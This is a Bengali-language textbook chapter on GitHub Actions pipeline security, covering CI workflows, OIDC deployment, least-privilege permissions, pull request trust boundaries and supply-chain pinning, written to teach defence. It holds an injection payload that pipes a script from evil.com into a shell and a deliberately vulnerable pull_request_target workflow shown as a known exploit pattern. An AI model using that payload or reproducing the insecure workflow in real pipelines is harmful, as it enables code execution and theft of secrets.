

# GitHub Actions ও Pipeline Security {#ch-github-actions}

> এমন workflow লিখুন, যা test, build আর deploy করে, কোনো দীর্ঘমেয়াদি credential রাখে না, আর কোনো pull request যাকে hijack করতে পারে না।

**এই অধ্যায়ে:** workflow, job আর step · জমা রাখা key-এর বদলে OIDC · ন্যূনতম অধিকারের `permissions` · pull request-এর trust boundary · pinning, lockfile আর provenance

## 💡 মূল ধারণা

Workflow হলো কয়েকটি job-এর সমষ্টি, আর **প্রতিটি job পায় একটি পরিষ্কার machine** (runner)। Dependency declare না করলে
job-গুলো parallel-এ চলে। এক job থেকে আরেক job-এ disk-এর কিছুই টিকে থাকে না, তাই file সরাতে হয় artefact বা cache দিয়ে।
আগে job-এর graph-টা design করুন, তাহলে YAML প্রায় নিজে থেকেই লেখা হয়ে যায়।

দ্বিতীয় কথাটা ক্ষমতা নিয়ে। Pipeline-এর হাতে যেকোনো একজন developer-এর চেয়ে বেশি privilege থাকে। এর কাছে আছে source,
cloud credential, আর registry-তে push করার access। একটি laptop হাতছাড়া হলে ক্ষতি একজন engineer-এর। কিন্তু pipeline
হাতছাড়া হলে সেটা attacker-এর code-এ নিজেই sign করে দেয়। তাই pipeline-এর হাতে যা থাকে তা কমান, যা কিছু pipeline ব্যবহার করে
তা pin করুন, আর যা করেছে তার রেকর্ড রাখুন।

> ⚠️ **যা বদলাতে থাকে:** action-এর major version মোটামুটি প্রতি বছর বদলায়। 2026 অনুযায়ী `actions/checkout` আছে v6-এ,
> আর `actions/setup-node` v7-এ। Provenance-এর format আর SLSA level-ও এখনো থিতু হচ্ছে।
> টেকসই নীতি: tag বদলানো যায়, commit SHA বা digest বদলানো যায় না। SHA দিয়ে pin করুন।

## কীভাবে কাজ করে



**একটি workflow কয়েকটি job-এ ছড়িয়ে পড়ে; parallel job-গুলোকে আবার ক্রমে ফিরিয়ে আনে `needs:`।**

**একটি সম্পূর্ণ CI workflow:**

```yaml
name: CI

on:
  pull_request: { branches: [main] }
  push: { branches: [main] }

# Cancel superseded runs on the same branch — saves runner minutes
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

permissions:
  contents: read # least privilege by default; widen per job

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false
      matrix:
        node: [24, 26] # the two LTS lines in support
        shard: [1, 2] # split the suite across runners
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v7
        with:
          node-version: ${{ matrix.node }}
          cache: npm # built-in dependency caching
      - run: npm ci
      - run: npm run lint && npm run type-check
      - run: npm test -- --shard=${{ matrix.shard }}/2 --coverage

  build:
    needs: test # only runs if every matrix leg passed
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - uses: docker/setup-buildx-action@v3
      - uses: docker/build-push-action@v6
        with:
          push: false
          tags: api:${{ github.sha }}
          cache-from: type=gha # layer cache backed by Actions cache
          cache-to: type=gha,mode=max
```

`concurrency` পুরনো হয়ে যাওয়া commit-এর জন্য খরচ বাঁচায়। `fail-fast: false` দেয় বলে matrix-এর একটি অংশ fail করলে
বাকিগুলো চাপা পড়ে না। `cache: npm` install-এর সময় কয়েক মিনিট থেকে কয়েক সেকেন্ডে নামিয়ে আনে।

Integration test-এর জন্য `services:` container হিসেবে সত্যিকারের database চালু করুন। Mock করবেন না। এতে একটি
`--health-cmd` দিন। না দিলে job আর container-এর মধ্যে দৌড় লাগে, আর মোটামুটি প্রতি দশটি run-এ একটি fail করে।

Pipeline-এ ঢোকার পথ অল্প কয়েকটি, আর সবার জানা। এজন্যই এগুলোর উত্তর দেওয়া যায়:

| ঢোকার পথ | কী হাতে পায় | নিয়ন্ত্রণ |
| ------- | ---------- | -------- |
| জমা রাখা দীর্ঘমেয়াদি cloud key | ওই role যা যা পারে সব, rotate না করা পর্যন্ত | OIDC federation |
| বদলানো যায় এমন tag-এ third-party action | আপনার job-এ যেকোনো code | Commit SHA দিয়ে pin |
| বদলানো যায় এমন tag-এ dependency বা base image | আপনার artefact-এ যেকোনো code | Lockfile, digest দিয়ে pin |
| Secret নাগালে রেখে fork-এর pull request | আপনার secret, এক অচেনা contributor-এর হাতে | `pull_request`, `pull_request_target` নয় |
| `run:` block-এ untrusted event text | Runner-এ shell execution | `env:` দিয়ে পাঠান |

## কখন ব্যবহার করবেন

| পরিস্থিতি | বাছাই | কারণ |
| -------- | ---- | --- |
| Build bundle deploy job-এ সরানো | Artefact | না পেলে job fail করা উচিত, ধীর হওয়া নয় |
| বারবার dependency download এড়ানো | Lockfile-এর `hashFiles()`-কে key করে cache | না পেলে শুধু সময় নষ্ট |
| পঞ্চাশটি repo-তে একই build আর deploy | Reusable workflow | পুরো job, নিজের runner, `secrets: inherit` |
| বারবার আসা step-এর দল, যেমন Node setup | Composite action | Caller-এর job-এর ভেতরেই চলে |
| Contributor-এর fork-এ test চালানো | `pull_request` | নকশা অনুযায়ীই secret ছাড়া চলে |
| Fork-এর pull request-এ label বা comment | `pull_request_target` | শুধু metadata, head কখনো checkout নয় |
| Cloud account-এ deploy | OIDC, সঙ্গে একটি `environment` | কোনো key জমা নেই, আর একজন মানুষের gate |

## OIDC দিয়ে deploy, কোনো static key ছাড়া

❌ Repository secret হিসেবে জমা রাখা দীর্ঘমেয়াদি IAM key কখনো rotate হয় না। যে পড়তে পারে, সে-ই ব্যবহার করতে পারে।

✅ **OIDC federation: এমন credential, যার মেয়াদ এক ঘণ্টায় শেষ:**

```yaml
deploy:
  runs-on: ubuntu-latest
  environment: production # gated by required reviewers
  permissions:
    id-token: write # required to request the OIDC JWT
    contents: read
  steps:
    - uses: actions/checkout@v6
    - uses: aws-actions/configure-aws-credentials@<full-commit-sha>
      with:
        role-to-assume: arn:aws:iam::123456789:role/github-deploy
        role-session-name: gha-${{ github.run_id }}
        aws-region: eu-west-1
    - run: |
        docker build -t $ECR/api:${{ github.sha }} .
        docker push $ECR/api:${{ github.sha }}
```

Job-টা GitHub-এর কাছে একটি signed JWT (sign করা token) চায়। এর claim-এ লেখা থাকে repository, ref আর environment।
Cloud একটি trust policy-র সঙ্গে সেগুলো মিলিয়ে দেখে, আর অস্থায়ী credential ফেরত দেয়। কিছুই জমা থাকে না, তাই rotate
করার মতোও কিছু নেই। Session-এর নাম run-এর নামে দিলে cloud-এর প্রতিটি call একটি নির্দিষ্ট workflow পর্যন্ত খুঁজে বের
করা যায়।

**আসল security থাকে trust policy-তে।** YAML শুধু চায়:

```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:acme/api:environment:production"
    }
  }
}
```

> ⚠️ **OIDC-তে সবচেয়ে সাধারণ ভুল হলো ঢিলেঢালা `sub` শর্ত।** `repo:acme/*` দিলে organisation-এর যেকোনো repository
> production role নিতে পারে। এর মধ্যে attacker-এর বানানো নতুন repository-ও আছে। Repository pin করুন, সঙ্গে environment
> বা branch-ও pin করুন।

Job-এর `environment` এমন কিছু নিয়ম যোগ করে, যা থাকে repository settings-এ, YAML-এ নয়। সেগুলো হলো বাধ্যতামূলক reviewer,
একটি wait timer, আর branch-এর সীমা, যাতে শুধু `main` deploy করতে পারে। অন্য secret, যেমন third-party API key, runtime-এ
একই OIDC identity দিয়ে secrets manager থেকে নিয়ে আসুন।

## ন্যূনতম অধিকারের Permission

Default `GITHUB_TOKEN` বেশিরভাগ job-এর যতটা দরকার, তার চেয়ে বেশি পারে। ওপরের CI workflow পুরো workflow-এর default হিসেবে
`contents: read` দেয়। শুধু deploy job এটা বাড়ায়, `id-token: write` যোগ করে, যাতে কেবল এই job-ই cloud role নিতে পারে।
Build আর deploy আলাদা job-এ রাখুন, যাতে build হাতছাড়া হলেও deploy করার ক্ষমতা না যায়।

## Pull Request-এর Trust Boundary

`pull_request` fork-এর code চালায় secret **ছাড়া**। `pull_request_target` চলে base repository-র context-এ, secret
**সহ**, আর সঙ্গে লেখার অধিকারওয়ালা token।

❌ **সবার জানা একটি exploit pattern:**

```yaml
on: pull_request_target # runs with repository secrets
jobs:
  build:
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }} # the attacker's code
      - run: npm ci && npm run build # arbitrary code, full secret access
```

একটি install script-ই যথেষ্ট। Build সফল হওয়ার দরকারই attacker-এর নেই। একই boundary-র কারণে self-hosted runner কখনো
public repository-কে serve করবে না: যেকোনো fork আপনার machine-এ code চালিয়ে ফেলবে।

## Supply Chain: Pinning, Lockfile আর Provenance

| ঝুঁকি | প্রতিকার |
| ---- | ------- |
| ক্ষতিকর package version | Commit করা lockfile-এর ওপর `npm ci` |
| অন্য দিকে ঘুরিয়ে দেওয়া action tag | Third-party action-কে **পুরো commit SHA** দিয়ে pin করুন |
| বদলানো যায় এমন base image | Digest দিয়ে pin করুন: `@sha256:…` |
| Typosquat করা package | Registry-র allowlist, ভেতরের একটি registry-র মধ্য দিয়ে proxy |

2025 জুড়ে npm আর CI marketplace-এর attack-গুলো সফল হয়েছিল, কারণ বেশিরভাগ ব্যবহারকারী বদলানো যায় এমন tag ব্যবহার করতেন।
First-party `actions/*`-কে major tag-এ রাখা গ্রহণযোগ্য আপস। বাকি সব SHA দিয়ে pin করুন।

Dependency (Dependabot), code (CodeQL) আর build করা image (Trivy) scan করুন। Fail করান শুধু high আর critical-এ, নইলে team
gate পাশ কাটাতে শিখে যায়। **SBOM** (software bill of materials) artefact-এর ভেতরের সবকিছুর তালিকা দেয়, ফলে
*"এই CVE কি আমাদের আক্রান্ত করে?"* প্রশ্নটা একটি query হয়ে যায়। Artefact sign করুন `cosign` দিয়ে, কিংবা build provenance
attestation দিয়ে। তারপর deploy-এর সময় signature যাচাই করুন। যে signature কেউ check করে না, সেটা নিছক metadata।

একই build আর deploy job দিয়েই release configuration ship হয়, যেমন frontend যে security header বসায়। তাই সেই header-গুলোও
code-এর মতোই review আর pinning পায়।

## ফাঁস হওয়া token কী করে

ফাঁস হওয়া cloud key attacker-কে তার role যা যা পারে সবই দেয়, যতক্ষণ না কেউ সেটা rotate করেন। লেখার scope-ওয়ালা ফাঁস
হওয়া `GITHUB_TOKEN` দিয়ে code push করা যায়, কিংবা release বদলানো যায়। Secret যাতে repository-তে না পৌঁছায়, সেজন্য কয়েক
স্তরে আটকান: একটি pre-commit hook, remote-এ push protection, আর পুরো history-র ওপর একটি CI scan। Scan-এর জন্য লাগে
`fetch-depth: 0`, নইলে scan শুধু শেষ commit-টাই দেখে।

> ⚠️ **Push হওয়ার মুহূর্তেই ফাঁস হওয়া secret বেহাত ধরে নিতে হবে**, force-push করে সরিয়ে দিলেও।
> Fork, clone আর CI cache-এ copy থেকে যায়। আগে rotate করুন, তারপর history পরিষ্কার করুন। ক্রমটাই আসল।

## সাধারণ ভুল

❌ **Event-এর data সরাসরি `run` block-এ বসানো।** ধরুন pull request-এর title হলো `"; curl evil.com/x.sh | sh`।
এটা runner-এ চলে যায়, কারণ shell line-টা দেখার আগেই `${{ }}` value বসিয়ে দেয়।
✅ `env:` দিয়ে পাঠান, যাতে shell এটাকে data হিসেবে দেখে:

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Title: $TITLE"
```

❌ **Third-party action-কে tag দিয়ে pin করা।** Action-এর মালিক যে-ই হোন, তিনি `@v2`-কে নতুন code-এর দিকে ঘুরিয়ে দিতে পারেন।
✅ পুরো commit SHA দিয়ে pin করুন, যেমন `some-org/deploy-action@a1b2c3d4…`।

❌ **যে commit token ফাঁস করেছে সেটা মুছে ভাবা, সমস্যা মিটে গেছে।** Copy আগেই ছড়িয়ে গেছে।
✅ আগে rotate করুন। History rewrite-কে গোছগাছ ভাবুন, প্রতিকার নয়।

❌ **এমন cache key, যা কখনো বদলায় না।** একবার লেখা হলে entry আর বদলানো যায় না, তাই কখনো update হয় না।
✅ Key দিন `hashFiles('**/package-lock.json')` দিয়ে, আর prefix ধরে fallback হিসেবে `restore-keys` রাখুন।

## 🔑 মূল শিক্ষা

- প্রতিটি job পায় একটি পরিষ্কার runner। তাই file সরাতে artefact, আর বারবার download এড়াতে cache ব্যবহার করুন।
- `permissions:` স্পষ্ট করে declare করুন, শুরু করুন `contents: read` থেকে, আর বাড়ান শুধু সেই job-এ, যার দরকার।
- জমা রাখা cloud key-এর বদলে OIDC নিন, আর trust policy-র `sub`-কে একটি repository আর environment-এ pin করুন।
- Third-party action-কে commit SHA দিয়ে আর base image-কে digest দিয়ে pin করুন, কারণ বদলানো যায় এমন tag-ই supply chain-এর ফুটো।
- `pull_request_target`-এর সঙ্গে head commit checkout করলে আপনার secret এক অচেনা contributor-এর হাতে চলে যায়।

## Interview-এর প্রশ্ন

**Q: Credential জমা না রেখে workflow-কে cloud provider-এ authenticate করাবেন কীভাবে?**

OIDC federation দিয়ে। Cloud account-এ GitHub-এর issuer register করুন, আর এমন একটি role বানান, যার trust policy `sub`
claim-কে একটি repository আর একটি environment-এ pin করে। Workflow দেয় `id-token: write`। এটা JWT-টা বদলে এমন credential
নেয়, যার মেয়াদ মোটামুটি এক ঘণ্টা। কে কোথায় deploy করতে পারবে, তা ঠিক করে trust policy, YAML নয়।

**Q: `pull_request_target`-এর ঝুঁকি কী, আর কখন এটা ব্যবহার করবেন?**

এটা চলে base repository-র context-এ, secret আর লেখার অধিকারওয়ালা token নিয়ে। কিন্তু code আসতে পারে অবিশ্বস্ত কোনো fork
থেকে। Head commit checkout করে কোনো install বা build step চালালেই contributor-এর code আপনার secret নিয়ে চলে। Contributor-এর
code-এর জন্য `pull_request` ব্যবহার করুন, আর `pull_request_target` রাখুন label দেওয়ার মতো metadata job-এর জন্য।

**Q: Reusable workflow আর composite action-এর পার্থক্য কী?**

Reusable workflow call হয় job-এর স্তরে, পুরো job define করে, নিজের runner-এ চলে, আর `secrets: inherit` নিতে পারে।
Composite action call হয় step-এর স্তরে, আর caller-এর job-এর ভেতরেই চলে। বারবার আসা step-এর দলের জন্য composite
action, আর অনেক repository জুড়ে পুরো pipeline একরকম করতে reusable workflow।

**Q: কখন self-hosted runner ব্যবহার করবেন, আর এর দাম কী?**

যখন job-এর এমন কিছু লাগে, যা hosted runner দিতে পারে না: private network access, বিশেষ hardware, কিংবা খুব বড় cache। দাম
হলো আপনার pipeline-এর trust boundary-র ভেতরে একটি machine। সেটা অস্থায়ী হতে হবে, কখনো public repository serve করবে না,
আর production-এর মানের patching পাবে। বেশিরভাগ team-এর জন্য hosted runner আর একটি service container-ই ভালো উত্তর।

**Q: আপনার pipeline থেকে একটি token ফাঁস হয়েছে। কী করবেন, আর আগে থেকে কী ব্যবস্থা থাকা দরকার?**

আগে rotate করুন, কারণ push হওয়ার মুহূর্তেই সেটা বেহাত। History rewrite শুধু গোছগাছ। তারপর cloud audit log দেখে বের করুন
ওই identity কী কী করেছে। এটা কাজ করে শুধু তখনই, যখন role session-এ run ID থাকে। আসলে কী চলেছিল, তা প্রমাণ করে commit
SHA দিয়ে tag দেওয়া image আর registry-র immutable tag।

## এরপর কী পড়বেন

- [Chapter ?? — Deployment Strategy, Rollback ও Feature Flag](#ch-deployment-strategies) — deploy job image-টা নিয়ে কী করবে
- [Chapter ?? — Container Image: Build ও Hardening](#ch-docker-fundamentals) — digest pinning, build secret, আর কেন build cache আর ship করা layer একই জিনিস
- [Chapter ?? — Git-এর মূল কথা ও Recovery](#ch-git-fundamentals) — rotate করার পরে history থেকে secret সরানো
